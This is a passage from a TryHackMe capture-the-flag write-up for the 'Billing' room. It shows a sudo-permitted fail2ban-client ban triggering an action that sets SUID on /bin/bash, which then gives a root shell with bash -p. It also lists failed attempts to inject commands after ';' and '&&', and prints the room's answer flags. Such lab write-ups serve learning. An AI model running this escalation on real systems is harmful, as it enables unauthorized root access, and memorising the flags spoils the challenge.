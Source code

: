 - Since it worked properly, let's manually ban random IP to check if it works, and if it does it should trigger the command execution..
  ```
  asterisk@Billing:/home/magnus$ ls -al /bin/bash
  -rwxr-xr-x 1 root root 1234376 Mar 27  2022 /bin/bash
  
  asterisk@Billing:/home/magnus$ sudo /usr/bin/fail2ban-client set asterisk-iptables banip 1.2.3.4
  1
  
  asterisk@Billing:/home/magnus$ ls -al /bin/bash
  -rwsr-sr-x 1 root root 1234376 Mar 27  2022 /bin/bash
  ```

- IT WORKED LEGOOOO!!! Now just execute `/bin/bash` with flag `-p` and get the flag!
  ```
  asterisk@Billing:/home/magnus$ /bin/bash -p
  bash-5.1# whoami
  root
  bash-5.1# cat /root/root.txt
  THM{33ad5b530e71a172648f424ec23fae60}
  bash-5.1# 
  ```

- I'm so glad it worked since I almost lost my mind during previous tries. Here's the [Fail2Ban LPE Guide](https://juggernaut-sec.com/fail2ban-lpe/) that I followed and some unsuccessfull commands.
  ```
  sudo /usr/bin/fail2ban-client ping; whoami
  sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1; /bin/bash -i
  sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1;echo x;id
  sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1 && /bin/bash
  sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1; bash
  sudo /usr/bin/fail2ban-client set sshd unbanip 127.0.0.1 && sudo /bin/bash
  ```
---

## 🏁 Flags

- **User Flag**: `THM{4a6831d5f124b25eefb1e92e0f0da4ca}`
- **Root Flag**: `THM{33ad5b530e71a172648f424ec23fae60}`

---

## 💬 Notes & Reflections

- What was challenging in this room for me?
  `Privilege escalation for sure, this was the hardest challenge so far that I did on THM.`

- What did I learn?
  `A new way of getting root access`

- I would recommend this room or any type of CTF challenge to every Cyber Security enthusiast since it will sharpen your skills better than any book/tutorial/course or walkthrough rooms on many different platforms!

- Thank you for reading! Enjoy, Have Fun and Happy Hacking! 🤟

---
